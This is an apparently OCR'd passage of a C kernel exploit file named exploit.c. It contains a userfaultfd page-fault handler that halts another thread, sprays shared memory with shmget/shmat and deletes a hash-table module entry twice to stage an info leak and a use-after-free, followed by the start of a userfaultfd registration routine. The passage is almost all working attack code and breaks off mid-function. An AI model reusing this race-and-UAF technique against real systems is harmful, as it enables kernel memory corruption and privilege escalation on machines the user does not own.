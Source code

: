 ```exploit.c
  // set poll information
  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  // wait for poll
  puts("[+] polling...");
  while(poll(&pollfd, 1, -1) > 0){
    if(pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
      errExit("poll");

    // read an event
    if(read(uffd, &msg, sizeof(msg)) == 0)
      errExit("read");

    if(msg.event != UFFD_EVENT_PAGEFAULT)
      errExit("unexpected pagefault");

    printf("[!] page fault: 0x%llx\n",msg.arg.pagefault.address);

    // Now, another thread is halting. Do my business.
    switch(STATUS){
      case STATE_LEAK:
        if((shmid = shmget(IPC_PRIVATE, PAGE, 0600)) < 0)
          errExit("shmget");
        delete_value(hashfd, targetkey);
        if((shmaddr = shmat(shmid, NULL, 0)) < 0)
          errExit("shmat");
        STATUS = STATE_UAF;
        break;
      case STATE_UAF:
        delete_value(hashfd, targetkey);
        STATUS = STATE_INVALID;
        break;
      default:
        errExit("unknown status");
    }

    printf("[+] uffdio_copy.src: %p\n", faultsrc);
    uffdio_copy.src = (ulong)faultsrc;
    uffdio_copy.dst = (ulong)msg.arg.pagefault.address & ~(PAGE - 1);
    uffdio_copy.len = PAGE;
    uffdio_copy.mode = 0;
    uffdio_copy.copy = 0;
    if(ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
      errExit("ioctl-UFFDIO_COPY");
    else{
      puts("[+] end ioctl(UFFDIO_COPY)");
    }

    break;
  }

  puts("[+] exiting fault_handler_thrd");
}

pthread_t register_userfaultfd_and_halt(void)
{
  puts("[+] registering userfaultfd...");

  long uffd;      // userfaultfd file descriptor
  struct uffdio_api uffdio_api;
  struct uffdio_register uffdio_register;
  int s;
```